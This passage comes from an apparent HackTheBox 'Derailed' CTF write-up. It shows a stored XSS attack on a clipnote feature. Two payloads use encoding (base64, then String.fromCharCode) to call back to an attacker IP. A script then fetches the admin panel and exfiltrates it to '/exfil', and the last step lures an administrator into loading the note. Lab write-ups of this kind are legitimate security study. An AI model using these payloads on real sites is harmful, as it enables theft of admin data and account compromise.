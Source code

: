 {% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(decode64('dmFyIHhtbEh0dHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKeG1sWG1sSHR0cC5vcGVuKCJHRVQiLCAiaHR0cDovLzEwLjEwLjE0LjI5L3NjcmlwdGNhbGxiYWNrIiwgdHJ1ZSk7CnhtbEh0dHAuc2VuZChudWxsKTs='))">
```
{% endcode %}

Base64 Encoding did not work, so I tried with Char Coding instead. What Char Coding does is basically translate all the characters within my script to become ASCII letters.&#x20;

The payload becomes this:

{% code overflow="wrap" %}
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(String.fromCharCode(118, 97, 114, 32, 120, 109, 108, 72, 116, 116, 112, 32, 61, 32, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 111, 112, 101, 110, 40, 34, 71, 69, 84, 34, 44, 32, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 46, 49, 48, 46, 49, 52, 46, 50, 57, 47, 115, 116, 114, 105, 110, 103, 99, 97, 108, 108, 98, 97, 99, 107, 34, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 120, 109, 108, 72, 116, 116, 112, 46, 115, 101, 110, 100, 40, 110, 117, 108, 108, 41, 59))">
```
{% endcode %}

This payload worked! I was able to retrieve two callbacks after creating the clipnote.

<figure><img src="../../../.gitbook/assets/image (2) (1) (5).png" alt=""><figcaption></figcaption></figure>

Now we can use a script from Hacktricks to steal the page content of the administration panel.&#x20;

```javascript
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.29/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

Then, we can send it via the same method **and make sure to report the clipnote to make the administrator load the page.**

